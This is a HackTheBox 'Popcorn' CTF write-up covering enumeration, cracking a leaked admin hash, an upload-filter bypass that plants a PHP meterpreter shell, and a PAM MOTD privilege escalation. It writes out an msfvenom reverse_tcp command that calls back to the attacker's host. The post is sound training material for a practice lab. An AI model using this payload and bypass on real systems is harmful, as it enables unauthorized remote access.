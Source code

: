 ```yaml
---
title: "HackTheBox Writeup: Popcorn"
date: 2019-08-23T02:36:15+02:00
tags:
  - hackthebox
  - ctf
  - writeup
showdate: true
toc: true
---
```

{{%summary%}}
![img](/images/popcorn-writeup/1.png)
{{%/summary%}}

A medium difficulty Linux box, where pretty much all the difficulty comes from the road to user, getting root consists in a very straightforward local privilege escalation exploit, user access is achieved by uploading a PHP shell from an image upload page.

---

## Enumeration

Let's begin right away with an nmap scan to identify running services:

![img](/images/popcorn-writeup/2.png)

Only two open ports, one for SSH access and the other leads to a standard installation of Apache, or so it seems from the homepage at least:

![img](/images/popcorn-writeup/3.png)

We don't have anywhere else to look for content so we run a dirb scan to enumerate hidden files and folders within the web server, and of course, we find out there is quite the amount of content, it's just hidden from casual lookers:

![img](/images/popcorn-writeup/4.png)

The torrent folder seems to contain a whole portal to share torrents:

![img](/images/popcorn-writeup/5.png)

We can even create our own account but I'll save that function up for later, because dirb has also found a "database" directory within the files in /torrent, which contains the backup of a database in SQL format that we can read. The most interesting part is at the very end of the file:

![img](/images/popcorn-writeup/6.png)

According to the structure of the users table, we have found the hashed password of user Admin, which has admin privileges. The password is hashed though so we must obtain the plain text equivalent first, it looks like an MD5 hash, so with a bit of lucky we may find a match on CrackStation's huge database:

![img](/images/popcorn-writeup/7.png)

Found it! It's "admin12", so now we can log in on the website and see what functionalities it has to offer:

![img](/images/popcorn-writeup/8.png)

So the password has been changed since the last backup, running hydra against the login with a list common passwords doesn't seem to work either, making this a rabbiy hole. So let's go look for something more interesting, perhaps after creating our own personal account:

![img](/images/popcorn-writeup/9.png)

Every user has access to the Upload section, where we can upload torrents to share with other users. The web application makes sure we are only trying to upload torrents, in fact trying to upload any other kind of file causes an error:

![img](/images/popcorn-writeup/10.png)

So I'm just going to grab a random .torrent file, I went for a Kali Linux image torrent because there is already one in the homepage. Once uploaded we can see there is an "add screenshot" feature, which turns out to be much less secure than the torrent upload form.

---

## Exploitation: image upload bypass

Let's see if a meterpreter shell can be sent as a fake image:

```shell-session
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.67 LPORT=9090 -o baudy.php
```

![img](/images/popcorn-writeup/12.png)

Intercept the upload POST request with Burp and change the Content-Type header of the shell from Application/php into image/jpeg and that's enough to trick the application into uploading the file, without having to alterate the extension either:

![img](/images/popcorn-writeup/13.png)

![img](/images/popcorn-writeup/14.png)

The web server accepted it and uploaded the file without hesitation. Looking back to our old dirb scan we also found a folder for uploads, located in /torrent/upload:

![img](/images/popcorn-writeup/15.png)

Our shell has been renamed but is still there intact, so we can start a listener on our host and then start the shell by clicking on it:

![img](/images/popcorn-writeup/16.png)

We are in as www-data and we have access to /home/george, where we find our user flag. In this same home folder we have a .cache subfolder that contains a weird little file:

![img](/images/popcorn-writeup/17.png)

---

## Exploitation: PAM MOTD privilege escalation

Looking this up on Google immediately reveals a [local privilege escalation exploit](https://www.exploit-db.com/raw/14339) so we download it on our box and pass it on to Popcorn with a temporary HTTP server, I use PHP for this:

![img](/images/popcorn-writeup/18.png)

![img](/images/popcorn-writeup/19.png)


1. Change directory to /tmp/ to have write permissions
+ Download the exploit from our box
+ Add execute permissions to the exploit
+ Run
+ Profit





















